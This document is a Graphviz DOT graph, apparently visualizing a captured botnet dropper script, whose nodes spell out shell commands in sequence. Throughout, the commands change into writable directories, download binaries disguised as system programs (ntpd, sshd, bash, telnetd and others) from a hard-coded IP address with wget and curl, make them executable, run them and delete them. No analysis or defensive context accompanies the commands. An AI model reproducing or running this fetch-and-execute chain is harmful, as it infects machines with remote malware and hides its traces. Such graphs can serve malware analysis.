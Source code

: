 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://165.227.106.171/ntpd"];
26 [label=" curl -O http://165.227.106.171/ntpd"];
31 [label=" chmod +x ntpd"];
36 [label=" ./ntpd"];
39 [label=" rm -rf ntpd"];
44 [label=" cd /tmp"];
48 [label=" cd /var/run"];
52 [label=" cd /mnt"];
56 [label=" cd /root"];
60 [label=" cd /"];
64 [label=" wget http://165.227.106.171/sshd"];
68 [label=" curl -O http://165.227.106.171/sshd"];
73 [label=" chmod +x sshd"];
78 [label=" ./sshd"];
81 [label=" rm -rf sshd"];
86 [label=" cd /tmp"];
90 [label=" cd /var/run"];
94 [label=" cd /mnt"];
98 [label=" cd /root"];
102 [label=" cd /"];
106 [label=" wget http://165.227.106.171/openssh"];
110 [label=" curl -O http://165.227.106.171/openssh"];
115 [label=" chmod +x openssh"];
120 [label=" ./openssh"];
123 [label=" rm -rf openssh"];
128 [label=" cd /tmp"];
132 [label=" cd /var/run"];
136 [label=" cd /mnt"];
140 [label=" cd /root"];
144 [label=" cd /"];
148 [label=" wget http://165.227.106.171/bash"];
152 [label=" curl -O http://165.227.106.171/bash"];
157 [label=" chmod +x bash"];
162 [label=" ./bash"];
165 [label=" rm -rf bash"];
170 [label=" cd /tmp"];
174 [label=" cd /var/run"];
178 [label=" cd /mnt"];
182 [label=" cd /root"];
186 [label=" cd /"];
190 [label=" wget http://165.227.106.171/tftp"];
194 [label=" curl -O http://165.227.106.171/tftp"];
199 [label=" chmod +x tftp"];
204 [label=" ./tftp"];
207 [label=" rm -rf tftp"];
212 [label=" cd /tmp"];
216 [label=" cd /var/run"];
220 [label=" cd /mnt"];
224 [label=" cd /root"];
228 [label=" cd /"];
232 [label=" wget http://165.227.106.171/wget"];
236 [label=" curl -O http://165.227.106.171/wget"];
241 [label=" chmod +x wget"];
246 [label=" ./wget"];
249 [label=" rm -rf wget"];
254 [label=" cd /tmp"];
258 [label=" cd /var/run"];
262 [label=" cd /mnt"];
266 [label=" cd /root"];
270 [label=" cd /"];
274 [label=" wget http://165.227.106.171/cron"];
278 [label=" curl -O http://165.227.106.171/cron"];
283 [label=" chmod +x cron"];
288 [label=" ./cron"];
291 [label=" rm -rf cron"];
296 [label=" cd /tmp"];
300 [label=" cd /var/run"];
304 [label=" cd /mnt"];
308 [label=" cd /root"];
312 [label=" cd /"];
316 [label=" wget http://165.227.106.171/ftp"];
320 [label=" curl -O http://165.227.106.171/ftp"];
325 [label=" chmod +x ftp"];
330 [label=" ./ftp"];
333 [label=" rm -rf ftp"];
338 [label=" cd /tmp"];
342 [label=" cd /var/run"];
346 [label=" cd /mnt"];
350 [label=" cd /root"];
354 [label=" cd /"];
358 [label=" wget http://165.227.106.171/pftp"];
362 [label=" curl -O http://165.227.106.171/pftp"];
367 [label=" chmod +x pftp"];
372 [label=" ./pftp"];
375 [label=" rm -rf pftp"];
380 [label=" cd /tmp"];
384 [label=" cd /var/run"];
388 [label=" cd /mnt"];
392 [label=" cd /root"];
396 [label=" cd /"];
400 [label=" wget http://165.227.106.171/sh"];
404 [label=" curl -O http://165.227.106.171/sh"];
409 [label=" chmod +x sh"];
414 [label=" ./sh"];
417 [label=" rm -rf sh"];
422 [label=" cd /tmp"];
426 [label=" cd /var/run"];
430 [label=" cd /mnt"];
434 [label=" cd /root"];
438 [label=" cd /"];
442 [label=" wget http://165.227.106.171/nut"];
446 [label=" curl -O http://165.227.106.171/nut"];
451 [label=" chmod +x nut"];
456 [label=" ./nut"];
459 [label=" rm -rf nut"];
464 [label=" cd /tmp"];
468 [label=" cd /var/run"];
472 [label=" cd /mnt"];
476 [label=" cd /root"];
480 [label=" cd /"];
484 [label=" wget http://165.227.106.171/apache2"];
488 [label=" curl -O http://165.227.106.171/apache2"];
493 [label=" chmod +x apache2"];
498 [label=" ./apache2"];
501 [label=" rm -rf apache2"];
506 [label=" cd /tmp"];
510 [label=" cd /var/run"];
514 [label=" cd /mnt"];
518 [label=" cd /root"];
522 [label=" cd /"];
526 [label=" wget http://165.227.106.171/telnetd"];
530 [label=" curl -O http://165.227.106.171/telnetd"];
535 [label=" chmod +x telnetd"];
540 [label=" ./telnetd"];
543 [label=" rm -rf telnetd"];
2 -> 6;
2 -> 22;
6 -> 10;
6 -> 22;
10 -> 14;
10 -> 22;
14 -> 18;
14 -> 22;
18 -> 22;
22 -> 26;
26 -> 31;
31 -> 36;
36 -> 39;
39 -> 44;
44 -> 48;
44 -> 64;
48 -> 52;
48 -> 64;
52 -> 56;
52 -> 64;
56 -> 60;
56 -> 64;
60 -> 64;
64 -> 68;
68 -> 73;
73 -> 78;
78 -> 81;
81 -> 86;
86 -> 90;
86 -> 106;
90 -> 94;
90 -> 106;
94 -> 98;
94 -> 106;
98 -> 102;
98 -> 106;
102 -> 106;
106 -> 110;
110 -> 115;
115 -> 120;
120 -> 123;
123 -> 128;
128 -> 132;
128 -> 148;
132 -> 136;
132 -> 148;
136 -> 140;
136 -> 148;
140 -> 144;
140 -> 148;
144 -> 148;
148 -> 152;
152 -> 157;
157 -> 162;
162 -> 165;
165 -> 170;
170 -> 174;
170 -> 190;
174 -> 178;
174 -> 190;
178 -> 182;
178 -> 190;
182 -> 186;
182 -> 190;
186 -> 190;
190 -> 194;
194 -> 199;
199 -> 204;
204 -> 207;
207 -> 212;
212 -> 216;
212 -> 232;
216 -> 220;
216 -> 232;
220 -> 224;
220 -> 232;
224 -> 228;
224 -> 232;
228 -> 232;
232 -> 236;
236 -> 241;
241 -> 246;
246 -> 249;
249 -> 254;
254 -> 258;
254 -> 274;
258 -> 262;
258 -> 274;
262 -> 266;
262 -> 274;
266 -> 270;
266 -> 274;
270 -> 274;
274 -> 278;
278 -> 283;
283 -> 288;
288 -> 291;
291 -> 296;
296 -> 300;
296 -> 316;
300 -> 304;
300 -> 316;
304 -> 308;
304 -> 316;
308 -> 312;
308 -> 316;
312 -> 316;
316 -> 320;
320 -> 325;
325 -> 330;
330 -> 333;
333 -> 338;
338 -> 342;
338 -> 358;
342 -> 346;
342 -> 358;
346 -> 350;
346 -> 358;
350 -> 354;
350 -> 358;
354 -> 358;
358 -> 362;
362 -> 367;
367 -> 372;
372 -> 375;
375 -> 380;
380 -> 384;
380 -> 400;
384 -> 388;
384 -> 400;
388 -> 392;
388 -> 400;
392 -> 396;
392 -> 400;
396 -> 400;
400 -> 404;
404 -> 409;
409 -> 414;
414 -> 417;
417 -> 422;
422 -> 426;
422 -> 442;
426 -> 430;
426 -> 442;
430 -> 434;
430 -> 442;
434 -> 438;
434 -> 442;
438 -> 442;
442 -> 446;
446 -> 451;
451 -> 456;
456 -> 459;
459 -> 464;
464 -> 468;
464 -> 484;
468 -> 472;
468 -> 484;
472 -> 476;
472 -> 484;
476 -> 480;
476 -> 484;
480 -> 484;
484 -> 488;
488 -> 493;
493 -> 498;
498 -> 501;
501 -> 506;
506 -> 510;
506 -> 526;
510 -> 514;
510 -> 526;
514 -> 518;
514 -> 526;
518 -> 522;
518 -> 526;
522 -> 526;
526 -> 530;
530 -> 535;
535 -> 540;
540 -> 543;
}
